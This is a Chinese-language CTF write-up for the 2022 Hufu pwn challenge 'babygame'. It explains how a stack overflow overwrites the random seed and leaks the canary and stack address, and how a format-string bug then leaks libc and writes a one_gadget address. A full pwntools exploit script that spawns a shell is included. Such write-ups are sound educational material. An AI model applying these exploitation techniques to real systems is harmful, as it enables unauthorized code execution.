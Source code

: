 ```yaml
---
title: 虎符CTF-2022 babygame 题解
date: 2023-02-28 23:17:50
categories:
- write-ups
- 其他
---
```

这应该是今年虎符的pwn题里面最简单的一道题了。首先要过的关就是随机数。

源文件：[my_github](https://github.com/Hornos3/pwnfile)

在main函数输入姓名时有一个溢出，可以溢出到种子那里将种子修改。这样后面的结果就不会变了。用C语言写一个程序跑一下出结果。如下为脚本片段：

![](1.png)

```python
io.sendlineafter(b'Please input your name:', b'1234567890' * 26 + b'aaaaa')

srand = 0x30393837

answer = [1, 2, 2, 1, 1, 1, 1, 2, 0, 0,
		  2, 2, 2, 1, 1, 1, 2, 0, 1, 0,
		  0, 0, 0, 1, 0, 1, 1, 2, 2, 1,
		  2, 2, 2, 1, 1, 0, 1, 2, 1, 2,
		  1, 0, 1, 2, 1, 2, 0, 0, 1, 1, 
		  2, 0, 1, 2, 1, 1, 2, 0, 2, 1, 
		  0, 2, 2, 2, 2, 0, 2, 1, 1, 0, 
		  2, 1, 1, 2, 0, 2, 0, 1, 1, 2, 
		  1, 1, 1, 2, 2, 0, 0, 2, 2, 2, 
		  2, 2, 0, 1, 0, 0, 1, 2, 0, 2]

for i in range(100):
	try:
		io.sendlineafter(b'round', str(answer[i]).encode())
	except EOFError:
		print("Failed in " + str(i))
		exit(0)
```

注意这里为什么输入name时要输入这个，我们将0x30393837作为种子，之后的部分用于填充栈内容，在b'aaaa'之后实际上就是canary了，我们之后不准备返回到这个位置，因此这个canary可以覆盖。覆盖之后程序输出时会将canary剩下的内容连带着后面的rbp一同输出，这样我们就能够获取栈的地址了。


在这之后会进入一个函数（以下称为vuln函数），里面有一个格式化字符串漏洞。

我们使用的libc版本与题目的版本相同，均为2.31。可以看到main函数的返回地址为__libc_start_main+243，我们可以使用格式化字符串漏洞将这个地址泄露出来。但是这里由于只有一个printf，在泄露之后还需要进行其他操作才有可能getshell，因此还需要将函数的返回地址修改一下。从IDA可以看到vuln函数的返回地址为0x1543，需要将其修改，如果能够再次进入vuln函数是最好。但是vuln函数的起始地址为0x13FB，如果将返回地址直接修改为vuln函数的起始地址，意味着我们需要修改返回地址最后两个字节。这就又会造成一个问题：倒数第二个字节的高4位无法确定。由页对齐我们可以修改最低12位，但同时这样修改会附带修改往上4位。这里成功率仅为1/16。理论上可以实现，但是还有没有更好的办法了呢？

```
.text:0000000000001539                 mov     eax, 0
.text:000000000000153E                 call    vuln
.text:0000000000001543
.text:0000000000001543 loc_1543:                               ; CODE XREF: main+D2↑j
.text:0000000000001543                 mov     eax, 0
.text:0000000000001548                 mov     rcx, [rbp+var_18]
```

答案当然是肯定的。我们不一定非得把返回地址改成vuln的起始地址，改成调用vuln函数的地址不也行吗，刚好上面就是调用call指令，我们只需要修改最低1字节为3E就可以返回到153E，然后直接call再次进入。这样的话，字符串的前面一部分就是%62c%8\$hhn，后面跟\%79\$p或\%79\$llx获取到__libc_start_main+243的地址和返回地址指针。这是第一轮格式化字符串漏洞注入。为了确保对齐，在'\%79\$p'前面加上一个'a'。

![](2.png)

```
io.sendlineafter(b'Good luck to you.', 
	b'%62c%8$hhna%79$p' + p64(stack_addr - 0x218))
```

注入之后，程序会返回libc的偏移地址。

然后我们进行第二次格式化字符串注入。通过gdb调试知道第二次注入和第一次注入时返回地址所在的位置是一样的。我们就可以套用这个地址。

使用one_gadget工具获取到这个版本中一共有3个one_gadget：

```
0xe3b2e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe3b31 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe3b34 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

我们逐一尝试。

我一开始使用LibcSearcher查偏移，发现都不行，用ELF.symbols直接解析本机libc文件就可以。

payload：

```python
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'
context.arch = 'amd64'

io = process('./babygame')

io.sendlineafter(b'Please input your name:', b'1234567890' * 26 + b'aaaaa')

io.recvuntil(b'Hello, ')

io.recv(260 + 12)

stack_addr = u64(io.recv(6) + b'\x00\x00')

srand = 0x30393837

answer = [1, 2, 2, 1, 1, 1, 1, 2, 0, 0,
		  2, 2, 2, 1, 1, 1, 2, 0, 1, 0,
		  0, 0, 0, 1, 0, 1, 1, 2, 2, 1,
		  2, 2, 2, 1, 1, 0, 1, 2, 1, 2,
		  1, 0, 1, 2, 1, 2, 0, 0, 1, 1, 
		  2, 0, 1, 2, 1, 1, 2, 0, 2, 1, 
		  0, 2, 2, 2, 2, 0, 2, 1, 1, 0, 
		  2, 1, 1, 2, 0, 2, 0, 1, 1, 2, 
		  1, 1, 1, 2, 2, 0, 0, 2, 2, 2, 
		  2, 2, 0, 1, 0, 0, 1, 2, 0, 2]

for i in range(100):
	try:
		io.sendlineafter(b'round', str(answer[i]).encode())
	except EOFError:
		print("Failed in " + str(i))
		exit(0)

# gdb.attach(io)

io.sendlineafter(b'Good luck to you.', 
	b'%62c%8$hhna%79$p' + p64(stack_addr - 0x218))

io.recvuntil(b'0x')
libc_addr = int(io.recv(12).decode(), 16)
print(hex(libc_addr))

libc_addr -= 243

# Libc = LibcSearcher('__libc_start_main', libc_addr)
Libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')
# base = libc_addr - Libc.dump('__libc_start_main')
base = libc_addr - Libc.symbols['__libc_start_main']
libc_system_addr = Libc.symbols['system']
mem_system_addr = base + libc_system_addr

print(hex(stack_addr - 0x218))
# gdb.attach(io)

one_gadget = [0xE3B2E + base, 0xE3B31 + base, 0xE3B34 + base]

payload = fmtstr_payload(6, {stack_addr - 0x218: one_gadget[1]})
io.sendlineafter(b'Good luck to you.', payload)

io.interactive()
```

![](3.png)

这道题看似简单，实际上细节还是比较多的。如果做题做的不多的话很容易在一些地方就卡住了。因此后面还是多做题为妙。
